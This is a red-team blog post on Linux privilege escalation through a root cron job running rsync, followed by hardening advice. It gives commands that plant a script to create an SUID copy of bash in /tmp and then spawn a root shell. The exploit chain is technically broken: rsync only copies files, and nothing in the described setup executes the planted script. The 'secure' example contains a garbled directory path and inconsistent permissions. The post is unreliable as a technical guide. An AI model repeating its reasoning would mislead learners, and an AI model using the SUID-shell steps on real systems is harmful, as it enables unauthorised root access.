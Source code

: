 ```yaml
---
title: "
Privilege Escalation Using Cron and Rsync"
date: 2023-02-05 14:15:24
categories: [privilege-escalation, linux]
tags: [redteam, privilege-escalation, linux]
---
```


### Privilege Escalation Using Cron and Rsync
In production environments, cron jobs are often used to schedule maintenance tasks and data backups. However, improper configuration can introduce vulnerabilities that can be exploited for privilege escalation. This article describes a realistic scenario where a cron job configured to use `rsync` can be exploited to gain elevated privileges.
#### Introduction 

Cron jobs allow for the automatic execution of scripts or programs at scheduled times. While useful, misconfigurations or inadequate permissions can lead to serious vulnerabilities. In this example, we will demonstrate how an attacker can exploit a vulnerable cron job to gain elevated privileges.

### Example Scenario 
Consider a scenario where a cron job is configured to back up the directory `/var/html/virtualstore.django.website` to `/backup/virtualstore` every minute. This cron job runs as root:

```plaintext
* * * * * root rsync -av /var/html/virtualstore.django.website/ /backup/virtualstore/
```
The vulnerability arises because the source directory (`/var/html/virtualstore.django.website`) is accessible and modifiable by a non-privileged user.
### Steps for Exploitation 

#### 1. Create a Malicious Script 
The first step is to create a malicious script that will be copied to the destination directory and executed with root privileges. The following script creates an SUID shell at `/tmp/rootbash`.

```bash
echo '#!/bin/bash' > /var/html/virtualstore.django.website/malicious.sh
echo 'cp /bin/bash /tmp/rootbash' >> /var/html/virtualstore.django.website/malicious.sh
echo 'chmod +s /tmp/rootbash' >> /var/html/virtualstore.django.website/malicious.sh
chmod +x /var/html/virtualstore.django.website/malicious.sh
```

#### 2. Modify the Trigger File 

Next, ensure the malicious script is executed by creating or modifying a file that will be interpreted by the cron job.


```bash
echo "/var/html/virtualstore.django.website/malicious.sh" > /var/html/virtualstore.django.website/trigger.sh
chmod +x /var/html/virtualstore.django.website/trigger.sh
```

#### 3. Wait for the Cron Job to Execute 
When the cron job runs, it will synchronize the contents of `/var/html/virtualstore.django.website/` to `/backup/virtualstore/`, including the `malicious.sh` script.
#### 4. Execute the Malicious Script 
After the cron job synchronizes the files, the malicious script will be executed with root privileges, creating an SUID shell at `/tmp/rootbash`.
#### 5. Obtain a Root Shell 

Finally, the attacker can execute the shell with root privileges:


```bash
/tmp/rootbash -p
```

### Prevention 

To prevent this type of vulnerability, follow these best practices:
 
1. **Restrict Access Permissions:** 
  - Ensure that only authorized users can modify the contents of directories used by cron jobs.
 
2. **Validate and Sanitize:** 
  - Implement proper validation and sanitization for any data inputs processed by scripts or cron jobs.
 
3. **Principle of Least Privilege:** 
  - Run cron jobs with the least amount of privilege necessary. Avoid running cron jobs as root unless absolutely necessary.
 
4. **Segregate Directories:** 
  - Use source and destination directories that are not directly accessible by non-privileged users.

### Example of a Secure Cron Job 

To configure a secure cron job, follow these guidelines:

#### Cron Job Configuration 

Add the cron job to the crontab of a specific user with restricted permissions:


```bash
crontab -e
```

Add the following line:


```plaintext
* * * * * rsync -av --delete /var/html/virtualstore.django.website/ /backup/virtualstore/
```

#### Directory Permissions 

Ensure that the directories have restricted permissions:


```bash
# Source directory (only the specific user can modify)
chown -R user:user /var/html/virtualstore.django.website
chmod -R 700 /var/html/virtualstore.django.website

# Destination directory (only root can modify)
chown -R root:root /backup/virtualstore
chmod -R 700 /backup/lojavivirtualstorertual
```

### Conclusion 

Improperly configured cron jobs can lead to privilege escalation vulnerabilities. The example provided demonstrates how a misconfigured cron job can be exploited. By following recommended security practices, such as restricting permissions and running with the least privilege necessary, you can mitigate these risks and protect your environment.


---

**References:**  
1. [HackTricks: Privilege Escalation via Cron Jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
 
2. [TryHackMe Linux Privilege Escalation Room](https://tryhackme.com/room/linprivesc)